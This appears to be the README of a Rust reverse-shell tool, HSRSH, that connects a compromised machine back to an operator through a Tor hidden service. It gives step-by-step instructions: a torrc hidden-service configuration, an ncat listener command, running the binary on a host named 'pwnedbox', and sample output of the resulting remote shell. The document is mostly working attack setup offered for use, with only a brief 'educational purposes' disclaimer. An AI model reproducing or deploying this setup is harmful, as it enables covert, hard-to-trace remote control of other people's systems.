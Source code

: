 # HSRSH

Hidden Service Reverse Shell, aka HSRSH

This was a quickly written tool for demonstrating a reverse shell over a hidden service all in
one binary and an excuse to play with Rust. Solely for educational purposes.

1. Configure your hidden service on server you will be accepting the shell connection on. Add this to your torrc

  ```
    HiddenServiceDir /var/lib/tor/hidden_service/
    HiddenServicePort 1337 127.0.0.1:1337
  ```

2. Start listener on the hidden service. MAKE SURE TO ONLY ALLOW LOCALHOST CONNECTIONS

  ```
    user@localhost:~$ ncat --allow 127.0.0.1 -nvl 127.0.0.1 -p 1337
    Ncat: Listening on 0.0.0.0:1337
  ```

3. Execute reverse shell binary, it will create a local tor instance and connect to your listener. This takes about 15 seconds.
    ```
    user@pwnedbox:~$ ./hsrsh
    ```

4. If everything is setup properly your shell should connect after about 20 seconds or so assuming the tor and internet connection is stable.

  ```    
    user@localhost:~$ ncat --allow 127.0.0.1 -nvlp 1337
    Ncat: Version 7.60 ( https://nmap.org/ncat )
    Ncat: Generating a temporary 1024-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
    Ncat: Listening on :::1337
    Ncat: Listening on 0.0.0.0:1337
    Ncat: Connection from 127.0.0.1.
    Ncat: Connection from 127.0.0.1:45964.
    user@pwnedbox:~$ uptime
     13:37:02 up 16 days, 46 min,  1 user,  load average: 0.82, 0.93, 1.43
  ```

To do:
  - support tls
  - windows support
  - Better / more Rust-like error handling

Things that I read that helped me out a lot with this:
- https://github.com/isdrupter/onionslicer
- https://stackoverflow.com/questions/48958814/what-is-the-rust-equivalent-of-a-reverse-shell-script-written-in-python
